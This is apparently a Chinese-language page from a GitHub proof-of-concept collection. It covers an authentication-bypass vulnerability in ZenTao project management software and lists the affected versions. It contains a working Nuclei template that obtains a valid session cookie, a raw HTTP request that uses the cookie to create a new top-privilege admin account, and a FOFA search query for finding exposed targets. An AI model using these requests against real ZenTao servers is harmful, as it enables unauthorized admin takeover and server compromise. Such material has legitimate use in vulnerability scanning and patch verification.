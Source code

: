 ## 禅道项目管理系统身份认证绕过漏洞

禅道项目管理系统存在身份认证绕过漏洞,远程攻击者利用该漏洞可以绕过身份认证,调用任意API接口并修改管理员用户的密码,并以管理员用户登录该系统,配合其他漏洞进一步利用后就可以实现完全接管服务器。

## 影响版本
```
16.x <= 禅道项目管理系统< 18.12（开源版）
6.x <= 禅道项目管理系统< 8.12（企业版）
3.x <= 禅道项目管理系统< 4.12（旗舰版）
```

## poc
```
id: easycorp-zentao-pms-idor

info:
  name: 禅道项目管理系统身份认证绕过漏洞
  author: GuoRong_X
  severity: critical
  description: |
    - 禅道系统某些API设计为通过特定的鉴权函数进行验证，但在实际实现中，这个鉴权函数在鉴权失败后并不中断请求，而是仅返回一个错误标志，这个返回值在后续没有被适当处理。此外，该系统在处理某些API时未能有效检查用户身份，允许未认证的用户执行某些操作，从而绕过鉴权机制。
  reference:
    - https://mp.weixin.qq.com/s/hiGI_fQmXOHdkPqn6x00Jw
  metadata:
    verified: true
    fofa-query: title="用户登录- 禅道"
  tags: zentao

http:
  - method: GET
    path:
      - "{{BaseURL}}/api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=upkbbehwgfscwizoglpw&branch=zqbcsfncxlpopmrvchsu"

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - 'Set-Cookie: zentaosid='

      - type: status
        status:
          - 200
# digest: 4a0a0047304502200b7a7cb58af457a9e566160cfdc539a99325db1513d5e4172a9a0a66f2f44e63022100fe0cc4ffd848c733eba3240bf102695253caa1420845a2b8aec5ca731e394759:58d4ffcb61df0489d6ab2fd018c17de6
```

## 添加用户poc
```
POST /biz/api.php/v1/users HTTP/1.1
Host: 192.168.0.102
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Cookie: zentaosid=d95c19a900256b7dc3c3f1866b1d121c

{"account": "asda33", "password": "QQqq123456", "realname": "asda33", "role": "top", "group": "1"}
```
![image](https://github.com/wy876/POC/assets/139549762/1c15070d-1563-4573-aff9-5da0da8c5848)


